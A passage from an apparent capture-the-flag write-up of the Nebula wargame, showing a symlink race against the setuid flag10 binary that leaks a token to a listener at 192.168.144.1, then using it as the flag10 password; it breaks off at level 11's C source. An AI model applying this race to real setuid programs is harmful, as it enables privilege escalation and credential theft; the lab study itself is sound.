On the Nebula system, we open two terminals. On the first terminal, we run a
loop that constantly swaps the `/tmp/token` symlink between pointing to
`/tmp/faketoken` and `/home/flag10/token`.

```shell
level10@nebula:~$ touch /tmp/faketoken
level10@nebula:~$ while :; do ln -fs /tmp/faketoken /tmp/token; ln -fs /home/flag10/token /tmp/token; done
```

On the second terminal, we constantly run the `flag10` binary against
`/tmp/token`.

```shell
while :; do /home/flag10/flag10 /tmp/token 192.168.144.1 ; done
```

We will eventually see the token being sent to our listener.
```shell
... snip ...
Ncat: Connection from 192.168.144.191:57857.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
... snip ...
```

Like in previous levels, the string in the token file is the password for the
flag10 user.

```shell
level10@nebula:~$ su - flag10
Password:
flag10@nebula:~$ whoami
flag10
flag10@nebula:~$ id
uid=989(flag10) gid=989(flag10) groups=989(flag10)
flag10@nebula:~$ getflag
You have successfully executed getflag on a target account
```

# level 11

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

/*
 * Return a random, non predictable file, and return the file descriptor for it.
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();

```